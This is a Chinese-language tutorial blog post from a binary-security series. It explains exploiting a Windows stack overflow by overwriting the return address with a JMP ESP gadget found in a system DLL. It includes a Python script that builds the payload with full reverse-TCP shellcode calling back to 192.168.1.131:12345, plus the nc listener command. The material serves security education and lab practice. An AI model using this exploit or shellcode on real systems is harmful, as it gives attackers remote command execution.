 ```yaml
---
published: true
layout: post
title: 栈溢出漏洞之ret eip
category: Bin-Security
tags: 
  - Security
time: 2017.08.05 12:12:00
excerpt: 浸淫二进制已久，几年来学习途径上也颇为坎坷，每每苦于没有一套完整的纲要，尤在入门开荒期间，上下而求索。一直以来都想自己规划出一套二进制安全系列的教纲，从上古时期到现代的技术细节，汇集整理所学所想，承百家之技艺，但遗后来人乘凉。

---
```


浸淫二进制已久，几年来学习途径上也颇为坎坷，每每苦于没有一套完整的纲要，尤在入门开荒期间，上下而求索。一直以来都想自己规划出一套二进制安全系列的教纲，从上古时期到现代的技术细节，汇集整理所学所想，承百家之技艺，但遗后来人乘凉。

<!--more-->

# 栈溢出漏洞之ret eip
在上一节《栈溢出漏洞概述》的最后，我做了一个留白。在根据最原始的想法进行尝试时，我遇到了这样几个问题：
1. 想要拿到当前栈空间的地址并不是一件容易的事，我们需要预先调试才能获取。
2. 即使通过调试获取到了栈的地址，程序每次重启时，栈的地址都会变化（日后你会了解到一个保护机制：ASLR）。
3. 我不能保证在每个运行环境，该地址都是正确的，毕竟这个值是硬编码地址到payload。
4. 另一方面，即使我选择不可靠的硬编码栈地址，多次尝试中我发现栈地址经常包含字符'\x00'，这一字符在很多情况下会截断输入。

于是我们发现，将调试找到的所用栈空间地址硬编码进payload是不可靠的，场面再次陷入僵局。

## 可靠的跳转到shellcode
shellcode的概念已在上一节有所提及，可以理解成实现功能的代码字节流。我们在利用栈溢出漏洞时，往往会定制一个payload，而shellcode就是payload的一部分，用于完成功能，而payload的其他部分则是一些相关的补丁、跳转地址等元素。它们共同实现配合程序的运行环境，通过精妙的指令操作使得EIP最终执行shellcode的地址处。

那么如何找到一个可靠的跳转方法呢？国外的某黑客找到了一种十分天才的方法，他发现在栈溢出的利用中，各寄存器中总是有那么几个的值和当前栈帧地址息息相关（尤其是ESP，因为其功用性颇为显然）。于是，一种十分精巧的做法应运而生。我们何不搜索一条稳定的JMP reg指令，用它的地址覆盖ret eip的地址呢？

而与此同时，JMP reg的指令多如牛毛，且每个程序都会加载必要的多个DLL。一些DLL的地址是固定的（以后在接触ASLR时我们再详细谈），我们完全可以先定位到RET EIP处，看看各寄存器哪个好用，然后再搜索一条JMP reg的指令地址覆盖。

拿上一节的例子来说，执行到RETN时，ESP是指向我们待填充的bbbb所在地址，如果我们在这里放置一条JMP ESP的地址，那么RETN就会将EIP置为JMP ESP的地址，且ESP做一次POP操作，指向了该地址+4的栈空间。此后，执行JMP ESP，就又跳回了该地址+4的地方执行指令。也就是说，我们大可以找一条JMP ESP的地址放置于此，紧随在后面的继续放置我们的shellcode，就能够达成目的。

可以通过mona.py在Immunity Debugger中搜索JMP ESP的地址。

![](/img/posts/Security/binary-study/reteip/20170805_1.jpg)

可以看到，当我们在程序自身模块搜索时没有找到JMP ESP的地址，但我们可以在几乎每个程序都会加载的DLL，诸如kernel32.dll，ntdll.dll等搜索。

> 实际上mona没有做什么神奇的事情，无非就是遍历地址空间，搜索JMP ESP对应的机器码而已，你完全可以不通过借助mona来完成，只是集成的工具更为高效、方便、友好。

我们跟到0x77474EBF地址处，发现确实是个JMP ESP指令。

![](/img/posts/Security/binary-study/reteip/20170805_2.jpg)

## 定制payload
我们将此地址覆盖bbbb的偏移，并在后方补给shellcode。

```python
with open('C:\\Users\\Administrator\\Desktop\\reteip\\name.dat','wb') as f:
    ret_eip = '\xbf\x4e\x47\x77'
    shellcode = "\xe8\xff\xff\xff\xff\xc0\x5f\xb9\xb4\x03\x01\x01\x81\xf1\x01\x01"
    shellcode += "\x01\x01\x83\xc7\x1d\x33\xf6\xfc\x8a\x07\x3c\x05\x0f\x44\xc6\xaa"
    shellcode += "\xe2\xf6\xe8\x05\x05\x05\x05\x5e\x8b\xfe\x81\xc6\x83\x02\x05\x05"
    shellcode += "\xb9\x03\x05\x05\x05\xfc\xad\x01\x3c\x07\xe2\xfa\x55\x8b\xec\x83"
    shellcode += "\xe4\xf8\x81\xec\x24\x02\x05\x05\x53\x56\x57\xb9\x8d\x10\xb7\xf8"
    shellcode += "\xe8\xa9\x01\x05\x05\x68\x8f\x02\x05\x05\xff\xd0\xb9\x40\xd5\xdc"
    shellcode += "\x2d\xe8\x98\x01\x05\x05\xb9\x6f\xf1\xd4\x9f\x8b\xf0\xe8\x8c\x01"
    shellcode += "\x05\x05\xb9\x82\xa1\x0d\xa5\x8b\xf8\xe8\x80\x01\x05\x05\xb9\x70"
    shellcode += "\xbe\x1c\x23\x89\x44\x24\x18\xe8\x72\x01\x05\x05\xb9\xd1\xfe\x73"
    shellcode += "\x1b\x89\x44\x24\x0c\xe8\x64\x01\x05\x05\xb9\xe2\xfa\x1b\x01\xe8"
    shellcode += "\x5a\x01\x05\x05\xb9\xc9\x53\x29\xdc\x89\x44\x24\x20\xe8\x4c\x01"
    shellcode += "\x05\x05\xb9\x6e\x85\x1c\x5c\x89\x44\x24\x1c\xe8\x3e\x01\x05\x05"
    shellcode += "\xb9\xe0\x53\x31\x4b\x89\x44\x24\x24\xe8\x30\x01\x05\x05\xb9\x98"
    shellcode += "\x94\x8e\xca\x8b\xd8\xe8\x24\x01\x05\x05\x89\x44\x24\x10\x8d\x84"
    shellcode += "\x24\xa0\x05\x05\x05\x50\x68\x02\x02\x05\x05\xff\xd6\x33\xc9\x85"
    shellcode += "\xc0\x0f\x85\xd8\x05\x05\x05\x51\x51\x51\x6a\x06\x6a\x01\x6a\x02"
    shellcode += "\x58\x50\xff\xd7\x8b\xf0\x33\xff\x83\xfe\xff\x0f\x84\xc0\x05\x05"
    shellcode += "\x05\x8d\x44\x24\x14\x50\x57\x57\x68\x9a\x02\x05\x05\xff\x54\x24"
    shellcode += "\x2c\x85\xc0\x0f\x85\xa8\x05\x05\x05\x6a\x02\x57\x57\x6a\x10\x8d"
    shellcode += "\x44\x24\x58\x50\x8b\x44\x24\x28\xff\x70\x10\xff\x70\x18\xff\x54"
    shellcode += "\x24\x40\x6a\x02\x58\x66\x89\x44\x24\x28\xb8\x30\x39\x05\x05\x66"
    shellcode += "\x89\x44\x24\x2a\x8d\x44\x24\x48\x50\xff\x54\x24\x24\x57\x57\x57"
    shellcode += "\x57\x89\x44\x24\x3c\x8d\x44\x24\x38\x6a\x10\x50\x56\xff\x54\x24"
    shellcode += "\x34\x85\xc0\x75\x5c\x6a\x44\x5f\x8b\xcf\x8d\x44\x24\x58\x33\xd2"
    shellcode += "\x88\x10\x40\x49\x75\xfa\x8d\x44\x24\x38\x89\x7c\x24\x58\x50\x8d"
    shellcode += "\x44\x24\x5c\xc7\x84\x24\x88\x05\x05\x05\x05\x01\x05\x05\x50\x52"
    shellcode += "\x52\x52\x6a\x01\x52\x52\x68\xa8\x02\x05\x05\x52\x89\xb4\x24\xc0"
    shellcode += "\x05\x05\x05\x89\xb4\x24\xbc\x05\x05\x05\x89\xb4\x24\xb8\x05\x05"
    shellcode += "\x05\xff\x54\x24\x34\x6a\xff\xff\x74\x24\x3c\xff\x54\x24\x18\x33"
    shellcode += "\xff\x57\xff\xd3\x5f\x5e\x33\xc0\x5b\x8b\xe5\x5d\xc3\x33\xd2\xeb"
    shellcode += "\x10\xc1\xca\x0d\x3c\x61\x0f\xbe\xc0\x7c\x03\x83\xe8\x20\x03\xd0"
    shellcode += "\x41\x8a\x01\x84\xc0\x75\xea\x8b\xc2\xc3\x8d\x41\xf8\xc3\x55\x8b"
    shellcode += "\xec\x83\xec\x14\x53\x56\x57\x89\x4d\xf4\x64\xa1\x30\x05\x05\x05"
    shellcode += "\x89\x45\xfc\x8b\x45\xfc\x8b\x40\x0c\x8b\x40\x14\x8b\xf8\x89\x45"
    shellcode += "\xec\x8b\xcf\xe8\xd2\xff\xff\xff\x8b\x3f\x8b\x70\x18\x85\xf6\x74"
    shellcode += "\x4f\x8b\x46\x3c\x8b\x5c\x30\x78\x85\xdb\x74\x44\x8b\x4c\x33\x0c"
    shellcode += "\x03\xce\xe8\x96\xff\xff\xff\x8b\x4c\x33\x20\x89\x45\xf8\x03\xce"
    shellcode += "\x33\xc0\x89\x4d\xf0\x89\x45\xfc\x39\x44\x33\x18\x76\x22\x8b\x0c"
    shellcode += "\x81\x03\xce\xe8\x75\xff\xff\xff\x03\x45\xf8\x39\x45\xf4\x74\x1e"
    shellcode += "\x8b\x45\xfc\x8b\x4d\xf0\x40\x89\x45\xfc\x3b\x44\x33\x18\x72\xde"
    shellcode += "\x3b\x7d\xec\x75\x9c\x33\xc0\x5f\x5e\x5b\x8b\xe5\x5d\xc3\x8b\x4d"
    shellcode += "\xfc\x8b\x44\x33\x24\x8d\x04\x48\x0f\xb7\x0c\x30\x8b\x44\x33\x1c"
    shellcode += "\x8d\x04\x88\x8b\x04\x30\x03\xc6\xeb\xdd\x2f\x05\x05\x05\xf2\x05"
    shellcode += "\x05\x05\x80\x01\x05\x05\x77\x73\x32\x5f\x33\x32\x2e\x64\x6c\x6c"
    shellcode += "\x05\x31\x39\x32\x2e\x31\x36\x38\x2e\x32\x2e\x31\x33\x31\x05\x63"
    shellcode += "\x6d\x64\x2e\x65\x78\x65\x05"
		
    payload = 'a'*36 + ret_eip + shellcode
    f.write(payload)
```

shellcode是一个用于连接到192.168.1.131:12345的reverse_tcp连接，会重定向自身的cmd输入和输出。关于他的制作以后我们详细说，这里我简单的使用它。

我们成功的通过RETN执行到了JMP ESP，单步执行跳到ESP，此时看看栈帧：

![](/img/posts/Security/binary-study/reteip/20170805_3.jpg)

我们发现，此时反汇编窗口正是我们要执行的shellcode指令，F9运行后，在192.168.1.131的Kali虚拟机中，通过`nc -lvp 12345`启动的tcp daemon捕获到了连接。

![](/img/posts/Security/binary-study/reteip/20170805_4.jpg)

## 关于JMP ESP的引申
实际上前面也多次提到JMP ESP并不是唯一解，很多时候，其他寄存器可能也与当前栈帧地址息息相关，但可能会存在偏移，此时就需要各种的padding技巧来跳过它。这些内容不是简单的几句话可以详尽的，关于此，我十分推荐你看泉哥翻译的《Exploit 编写系列教程第二篇: 栈溢出——跳至shellcode》，看雪论坛上你可以搜索到它。